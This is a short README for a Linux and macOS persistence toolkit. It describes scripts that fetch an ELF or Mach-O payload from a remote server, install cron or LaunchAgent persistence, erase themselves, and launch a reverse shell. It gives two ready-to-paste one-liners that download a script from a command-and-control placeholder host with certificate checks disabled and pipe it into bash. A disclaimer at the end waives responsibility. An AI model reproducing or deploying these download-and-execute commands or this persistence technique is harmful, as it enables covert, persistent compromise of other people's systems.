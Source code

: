 # Persistence Bash Script for Linux and OSX

### Linux
Script for Linux downloads an elf payload from external url and set cron persistence on reboot, then remove itself. It checks if script is launched as root or as user.

##### ONE LINER LINUX
`$ wget -q --no-check-certificate -O - https://C2C_IP/linux_persistence | bash`

### OSX
Script for OSX downloads a Mach-O file from external url then making persistence downloading a plist and LaunchAgents from external url, lastly executes macho reverse shell.

##### ONE LINER OSX
`$ curl -s -k https://C2C_IP/osx_persistence | bash`
##

*Please note that i'm not responsible for any damages and illegal use. Don't be a twat!*
